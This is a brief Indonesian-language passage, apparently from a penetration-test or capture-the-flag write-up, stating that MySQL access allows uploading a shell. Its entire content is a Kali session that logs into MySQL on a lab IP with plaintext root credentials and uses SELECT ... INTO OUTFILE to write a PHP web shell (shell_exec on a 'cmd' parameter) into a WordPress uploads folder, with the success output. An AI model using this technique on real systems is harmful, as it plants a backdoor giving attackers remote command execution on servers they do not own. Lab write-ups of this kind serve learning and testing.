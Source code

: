 Jika mendapat akses ke mysql, kita bisa upload shell
```
root@kali:~# mysql -uroot -pplbkac -h 192.168.1.32  

mysql> Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";**  
Query OK, 1 row affected (0.00 sec)

mysql> exit  
```